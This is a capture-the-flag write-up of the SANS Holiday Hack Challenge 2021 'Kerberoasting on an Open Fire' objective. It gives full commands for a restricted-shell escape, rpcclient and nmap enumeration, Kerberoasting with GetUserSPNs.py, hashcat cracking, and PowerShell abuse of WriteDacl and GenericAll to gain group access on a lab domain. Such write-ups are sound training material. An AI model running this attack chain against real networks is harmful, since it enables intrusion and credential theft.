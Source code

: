 # OBJECTIVE 8 - Kerberoasting on an Open Fire #

## OBJECTIVE : ##
>Obtain the secret sleigh research document from a host on the Elf University domain. What is the first secret ingredient Santa urges each elf and reindeer to consider for a wonderful holiday season? Start by registering as a student on the [ElfU Portal](https://register.elfu.org/). Find Eve Snowshoes in Santa's office for hints..

#  

## HINTS: ##
<details>
  <summary>Hints provided for Objective 8</summary>
  
>-	Check out [Chris Davis' talk](https://www.youtube.com/watch?v=iMh8FTzepU4) and [scripts](https://github.com/chrisjd20/hhc21_powershell_snippets) on Kerberoasting and Active Directory permissions abuse.
>-	Learn about [Kerberoasting](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a) to leverage domain credentials to get usernames and crackable hashes for service accounts.
>-	There will be some `10.X.X.X` networks in your routing tables that may be interesting. Also, consider adding `-PS22,445` to your `nmap` scans to "fix" default probing for unprivileged scans.
>-	[OneRuleToRuleThemAll.rule](https://github.com/NotSoSecure/password_cracking_rules) is great for mangling when a password dictionary isn't enough.
>-	[CeWL](https://github.com/digininja/CeWL) can generate some great wordlists from website, but it will ignore digits in terms by default.
>-	Administrators often store credentials in scripts. These can be coopted by an attacker for other purposes!
>-	Investigating Active Directory errors is harder without [Bloodhound](https://github.com/BloodHoundAD/BloodHound), but there are [native](https://social.technet.microsoft.com/Forums/en-US/df3bfd33-c070-4a9c-be98-c4da6e591a0a/forum-faq-using-powershell-to-assign-permissions-on-active-directory-objects?forum=winserverpowershell) [methods](https://www.specterops.io/assets/resources/an_ace_up_the_sleeve.pdf).

</details>

#  

## PROCEDURE : ##

We start off this one by registering at the [elfu registration portal](https://register.elfu.org/) and we are given a username, password and server address and instructed to `ssh` to it on port `2222`.  We are then met by a menu screen which only accepts `1` or `e` as keyboard inputs.  `1` brings up a list of grades and `e` exits the program any other keypress doesn’t appear to do anything.

After hours and hours and hours of trying different combinations, I discovered that `Ctrl+D` exits to a Python prompt – well I wish I’d tried that earlier!

From the Python prompt I was able to run the following commands to exit to a bash prompt:
```python
>>> import subprocess
>>> out, err = subprocess.Popen(['bash', '-l'], env={}).communicate()
```

Now that I’ve broken out into a bash prompt,  I looked around (following the suggestions in the hint) and noticed that the routing table includes routes to another three networks; `10.128.1.0/24`, `10.128.2.0/24` and `10.128.3.0/24`.  The `172.17.0.0/16` network is the one we’re on.
I also have a look at the ARP table and find four hosts on it which are on the same network as I am.  I ran a `nmap` scan towards each of these four IPs and `172.17.0.4` attracted my attention due to the number of open ports it had including LDAP, SMB and RPC.
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/2a1040a6-442e-4343-ae6b-fc3c5422c845)

Using `rpcclient`, I was able to connect to `172.17.0.4` with the same credentials provided by the Elf-U registration page
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/535ce633-9add-4d14-b6b0-736254065460)

At this point I Googled some ways of enumerating a server using `rpcclient` and I was able to get some interesting information.

By running ``rpcclient $> enumdomusers`` we get a list of users on the domain which include a number of particularly interesting ones:
-  ``user: [test] rid:[0x60f]``
- ``user:[Administrator] rid: [0x1f4]``
-  ``user:[admin] rid:[0x3e8]``
- ``user:[elfu_admin] rid[0x450]``
-  ``user:[elfu_svc] rid:[0x451]``
-  ``user:[remote_elf] rid:[0x452]``

I could also run ``rpcclient $> enumdomgroups`` to get a list of domain groups
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/3874ac46-5c04-4431-a253-5001eb455c5f)

and ``rpcclient $> get dompwinfo`` to find out what kind of password requirements are enforced on the domain.  From this I learned that the domain requires a **minimum password length of 7 characters**.  Something tells me this might be useful later on in this challenge...

![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/72cfd07c-b4f6-4a24-b1da-0e1f2be9a068)

Running `nmap` towards the `10.x.x.x` networks with the `-PS22,445` switch as suggested in the hint gives us two hosts that are particularly interesting: `10.128.3.30` and `10.128.1.53`.  The latter’s hostname is `hhc21-windows-dc.c.holidayhack2021.internal` and by connecting to it using `rpcclient` and running ``rpcclient $> querydominfo``, I confirmed that the Server’s role is `ROLE_DOMAIN_PDC` – presumably that stands for **P**rimary **D**omain **C**ontroller.  Similarly, I was able to determine that `10.128.3.30` is the BDC – **B**ackup **D**omain **C**ontroller.

![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/13e71f00-3f20-4403-b767-931b5fc6f2e8)

Now that I found the domain controller, I should be able to use [Kerberoasting](https://attack.mitre.org/techniques/T1558/003/) to get a password hash.  I start by uploading the script `GetUserSPNs.py`[^1]  using `scp`:
```python
> Scp -P 2222 GetUserSPNs.py username@grades.elfu.org:
```

I can now run the script on the `grades.elfu.org` machine which is directly connected to the ELFU domain and I can use my own credentials for this:
```console
$ Python3 GetUserSPNs.py -outputfile spns.txt -dc-ip 10.128.1.53 elfu.local/username:'Password!' -request
```

Once the script ran, I got a text file; `spns.txt` which contains a hash for user `elfu_svc` and I could copy this back to my  local machine using `scp` once again:
```python
> Scp -P 2222 username@grades.elfu.org:/home/username/spns.txt spns.txt
```

For the next step I need to crack the hash using [Hashcat](https://hashcat.net/hashcat/).  For this I’ll need a suitable wordlist and a mangling ruleset.  The hints suggest using `Cewl` to generate the wordlist and `OneRuleToRuleThemAll.rule`[^2]  as a mangling rule.  From the enumeration I did earlier on the domain connected machines, I know that the domain password rules expect a password with a minimum length of 7 characters.  So, I can use `cewl` to scrape `https://register.elfu.org/register` for words of suitable length.  I also include the `–with-numbers` switch as recommended by the hints (by looking at the page source we see the names of karaoke groups which look a bit like potential passwords and include numbers in them).

![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/4a478247-50e0-46d3-84ad-045b65308d12)
```console
$ cewl -m 7 -w custom_wordlist.txt –with-numbers https://register.elfu.org/register
```

Now I run `hashcat` with the generated wordlist:
```console
$ hashcat -m 13100 -a 0 spns.txt –potfile-disable -r OneRuleToRuleThemAll.rule –force -O -w 4 –opencl-device-types 1,2 custom_wordlist.txt
```

Once hashcat finishes cracking the hash I find out that the user `elfu_svc` has password `Snow2021!` 😊

I can use these new credentials now to connect to the BDC server and see what shares are available on it:
```console
$ rpcclient -U elfu_svc 10.128.3.30 -c netshareenum
```
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/91857eb5-5daa-4782-8e4e-2bf93b9ca39d)

I see that there are 4 shares available; `netlogon`, `sysvol`, `elfu_svc_shr` and `research_dep`.
I can access all of these apart from `research_dep`.   On the other hand, `elfu_svc_shr` is the only share I have access to that has any files on it.  
I can access this share and download all the files in a tar archive:
```console
$ smbclient -U elfu_svc //10.128.3.30/elfu_svc_shr
smb: \> tar c all.tar
```

Now I can untar the file and search through the contents[^3]:
```console
$ tar -xvf all.tar
$ grep -l remote_elf   
```

This pointed me to a PowerShell script file called `GetProcessInfo.ps1` (can’t believe it’s actually the exact same filename as in the tutorial video) which includes some kind of hash of `remote_elf`‘s password.  
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/a529a93a-250b-4fb0-9f1b-709b5dc708dc)

Looking through the script I can see that is actually using `remote_elf`’s credentials to connect to the DC and get the running processes.  I can therefore edit the same script using the hints provided [here](https://github.com/chrisjd20/hhc21_powershell_snippets#added-bonus-here-is-how-you-can-enter-pssession-into-a-remote-computer) to allow me to establish a PowerShell Session.  
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/e028cee7-b23c-4fb8-9a58-f6f2cd0ed613)

Now I hope (or expect, given the hints in this challenge so far) that `remote_elf` has been given `WriteDacl` rights to a group that is of interest to us.  After some trial-and-error I find that `remote_elf` does indeed have `WriteDacl` enabled for the group `Research Department`.  This is verified by running the following at the powershell prompt:
```powershell
$ADSI = [ADSI]"LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$ADSI.psbase.ObjectSecurity.GetAccessRules($true,$true,[Security.Principal.NTAccount])
```

And here we see that WriteDacl is enabled for `remote_elf`... excellent!
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/1a6df0c0-4ff4-48e2-9701-f30363b6f70f)

So now I can use `remote_elf`’s privileges to give `Generic All` access to our username provided by the `register.elfu.org` system.  For this I can use [this script](https://github.com/chrisjd20/hhc21_powershell_snippets#in-the-below-example-the-genericall-permission-for-the-chrisd-user-to-the-domain-admins-group-if-the-user-your-running-it-under-has-the-writedacl-permission-on-the-domain-admins-group).  The script runs with a number of errors, but when I [check permissions](https://github.com/chrisjd20/hhc21_powershell_snippets#you-can-read-the-dacl-of-an-ad-group-object-using) again I see that my user now has `GenericAll` rights.
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/3bb62529-b447-4609-b9a6-77cdde7b2606)

This means that I should now be able to add myself to the `ResearchDepartment` group.  To do this I run [this script](https://github.com/chrisjd20/hhc21_powershell_snippets#in-the-below-example-the-genericall-permission-for-the-chrisd-user-to-the-domain-admins-group-if-the-user-your-running-it-under-has-the-writedacl-permission-on-the-domain-admins-group ) and I can now verify that my user; `fmcygawtjd` has indeed been added to the `ResearchDepartment` group.
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/d94a8ea3-df2a-40b3-af4d-873fad5f01fa)

Now I am able to access `//10.128.3.30/research_dep` with my own username and password and there I (**FINALLY**) find a nice file waiting for me: [`SantaSecretToAWonderfulHolidaySeason.pdf`](Assets/SantasSecretToAWonderfulHolidaySeason.pdf).  It would have been nice if it had been a simple txt file I guess – but anyway – I can use `scp` to transfer the file to my PC. 

But `scp` gives me a *“TERM Environment Variable Not Set”* Error and helpfully suggests I use a bash shell on the remote pc.  So I switch to bash by running ``$ chsh -s /bin/bash`` then exiting back to the python prompt and calling up the bash prompt once again.  Now I was able to `scp` the document to my PC and open the pdf to find the Santa’s ingredient at the top of the list.

This was one super challenging Objective!  So many of the elements were completely new to me; rpcclient enumeration, working with AD, working with PowerShell, etc.. not to mention Kerberoasting!  But this is what keeps bringing me back to the HolidayHack Challenge year after year – the challenges are all challenging but achievable and it’s a great feeling when I get to accomplish each one 😊  
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/413e9a0a-61b1-4d36-9ef1-dc0e414c4adb)



[^1]:[https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py )
[^2]:[https://github.com/NotSoSecure/password_cracking_rules/blob/master/OneRuleToRuleThemAll.rule](https://github.com/NotSoSecure/password_cracking_rules/blob/master/OneRuleToRuleThemAll.rule)
[^3]:I finally looked for `remote_elf` after trying a whole bunch of other keywords and then decided to start looking for some of the usernames I had enumerated earlier.
